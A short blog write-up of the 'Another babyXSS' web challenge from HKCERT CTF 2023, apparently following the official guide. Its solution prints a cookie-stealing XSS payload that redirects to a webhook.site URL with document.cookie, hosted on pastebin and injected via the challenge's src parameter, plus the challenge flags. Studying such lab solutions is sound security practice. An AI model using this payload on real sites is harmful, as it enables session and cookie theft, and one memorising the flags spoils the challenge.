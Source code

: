 ```yaml
---
layout: post
title:  "HKCERT CTF 2023 Writeups - Another babyXSS"
date:   2023-11-12 17:24:00 +0800
category: 
    - ctf
    - hkcert23ctf
---
```


Here is the writeup for Another babyXSS!

> `hkcert23{he110_aga1n_4nd_we1c0m3_t0_hkc3r7_c7f}`

## 又有寶貝 XSS (100 pts) (with guide)

The official guide is [here](https://hackmd.io/@blackb6a/hkcert-ctf-2023-ii-en-4e6150a89a1ff32c#%E5%8F%88%E6%9C%89%E5%AF%B6%E8%B2%9D-XSS--Baby-XSS-again-Web)

### Solution

1. Craft an exploit.

    `location='https://webhook.site/someWebHook/?cookie='+document.cookie => https://pastebin.com/xxxxxxxx`


2. Baby, now I am your trusted parent, give me your flag!

    `http://babyxss-k7ltgk.hkcert23.pwnable.hk:28232/?src=https://pastebin.com/dl/xxxxxxxx`

The flag is obtained at the webhook as `hkcert23{pastebin_0r_trashbin}`

